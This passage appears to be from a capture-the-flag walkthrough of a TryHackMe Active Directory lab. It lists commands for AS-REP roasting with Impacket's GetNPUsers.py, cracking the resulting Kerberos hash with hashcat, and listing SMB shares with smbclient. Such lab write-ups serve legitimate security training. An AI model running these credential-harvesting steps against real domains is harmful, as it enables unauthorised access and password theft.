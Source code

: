 7 - We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?
* Save the username of the Kerbrute output in a file call validusers.txt
* ```python3.9 /opt/impacket/examples/GetNPUsers.py -no-pass -usersfile validusers.txt -dc-ip <ip-virtual-machine> <dns-domain-name>/```

<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/attacktivedirectory/attacktivedirectory04.png" width="50%">

8 - Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)
9 - What mode is the hash?
* Search [HERE](https://hashcat.net/wiki/doku.php?id=example_hashes) the format of the hash you got from the Impacket output

10 - Now crack the hash with the modified password list provided, what is the user accounts password?
* Save the hash found from the Impacket output in a file call hash.txt, use hashcat to crack the password
* ```hashcat -m18200 hash.txt passwordlist.txt```

11 - What utility can we use to map remote SMB shares?
* smbclient

12 - Which option will list shares?
* Read the documentation in ```smbclient -h```

13 - How many remote shares is the server listing? 
* ```smbclient -L <ip-virtual-machine> -U "<user-from-impacket-output>"```

<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/attacktivedirectory/attacktivedirectory05.png" width="50%">
